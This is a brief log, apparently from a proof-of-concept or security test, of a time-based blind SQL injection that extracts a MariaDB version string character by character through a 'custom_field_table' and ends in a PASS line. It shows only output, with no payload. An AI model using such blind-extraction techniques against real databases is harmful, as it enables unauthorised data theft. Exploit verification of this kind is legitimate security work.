    extracted @@version[16] = 'u' (6.27s) -> 11.8.8-MariaDB-u
    extracted @@version[17] = 'b' (6.27s) -> 11.8.8-MariaDB-ub
    extracted @@version[18] = 'u' (5.27s) -> 11.8.8-MariaDB-ubu
    extracted @@version[19] = '2' (6.27s) -> 11.8.8-MariaDB-ubu2
    extracted @@version[20] = '4' (6.27s) -> 11.8.8-MariaDB-ubu24
    extracted @@version[21] = '0' (6.27s) -> 11.8.8-MariaDB-ubu240
    extracted @@version[22] = '4' (6.27s) -> 11.8.8-MariaDB-ubu2404
[PASS] blind @@version extraction via custom_field_table: extracted='11.8.8-MariaDB-ubu2404', direct_db='11.8.8-MariaDB-ubu2404'
```
